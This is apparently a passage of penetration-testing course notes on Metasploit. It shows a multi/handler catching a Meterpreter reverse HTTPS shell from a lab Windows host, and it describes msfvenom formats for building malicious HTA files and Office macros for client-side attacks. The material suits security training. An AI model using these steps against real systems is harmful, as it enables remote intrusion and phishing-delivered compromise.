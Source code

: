 ```sh
```
Executing multi/handler as a background job
```sh
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started HTTPS reverse handler on https://192.168.118.2:443

msf6 exploit(multi/handler) > jobs

Jobs
====

  Id  Name                    Payload                            Payload opts
  --  ----                    -------                            ------------
  0   Exploit: multi/handler  windows/meterpreter/reverse_https  https://192.168.118.2:443

msf6 exploit(multi/handler) > jobs -i 0
```
At this point, the multi/handler is running and listening for an HTTPS reverse payload connection. Now, we can generate a new executable containing the windows/meterpreter/reverse_https payload, execute it on our Windows target, and our handler should come to life:
```sh
msf6 exploit(multi/handler) > 
[*] https://192.168.118.2:443 handling request from 192.168.120.11; (UUID: vbg4lqkf) Staging x86 payload (176220 bytes) ...
[*] Meterpreter session 5 opened (192.168.118.2:443 -> 192.168.120.11:50795) at 2021-01-22 11:10:45 -0500
```
### Client-Side Attacks
The Metasploit Framework also offers many features that assist with client-side attacks, including various executable formats beyond those we have already explored. 
```sh
msfvenom -l formats
```
The hta-psh, vba, and vba-psh formats are designed for use in client-side attacks by creating either a malicious HTML Application or an Office macro for use in a Word or Excel document, respectively.

## Building Our Own MSF Module
